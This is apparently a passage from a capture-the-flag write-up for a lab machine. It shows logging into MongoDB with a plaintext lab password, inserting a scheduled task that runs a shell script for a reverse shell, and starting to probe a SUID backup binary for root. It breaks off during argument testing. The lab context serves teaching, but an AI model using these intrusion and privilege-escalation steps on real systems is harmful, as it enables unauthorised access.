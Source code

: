 ```
    });
  }, 30000);

});
``` 
Now that we know the system is running mongoDB, we use this to exploit the system and get a rev shell.

```
mark@node:~$ mongo -u mark -p 5AYRft73VtFpc84k scheduler
MongoDB shell version: 3.2.16
connecting to: scheduler
> 
db
```
After connecting to the db, we create a python one-liner under tmp folder, and we make it executing by issuing:
```
> db.tasks.insertOne({cmd:"bash /tmp/shell.sh"});
```
We get the reverse connection and we are tom! :)

For the root flag, I notice that an interesting SUID bit is set for /usr/local/bin/backup.

Running strings on the binary:
```ltrac
$ strings /usr/local/bin/backup

             ____________________________________________________
            /                                                    \
           |    _____________________________________________     |
           |   |                                             |    |
           |   |             Secure Backup v1.0              |    |
           |   |_____________________________________________|    |
           |                                                      |
            \_____________________________________________________/
                   \_______________________________________/
                _______________________________________________
             _-'    .-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.  --- `-_
          _-'.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.--.  .-.-.`-_
       _-'.-.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-`__`. .-.-.-.`-_
    _-'.-.-.-.-. .-----.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-----. .-.-.-.-.`-_
 _-'.-.-.-.-.-. .---.-. .-----------------------------. .-.---. .---.-.-.-.`-_
:-----------------------------------------------------------------------------:
`---._.-----------------------------------------------------------------._.---'
Could not open file
Validated access token
Ah-ah-ah! You didn't say the magic word!
Finished! Encoded backup is below:
```

We can see that the binary is expecting three arguments. I did some testing, with test1 test2 test3.
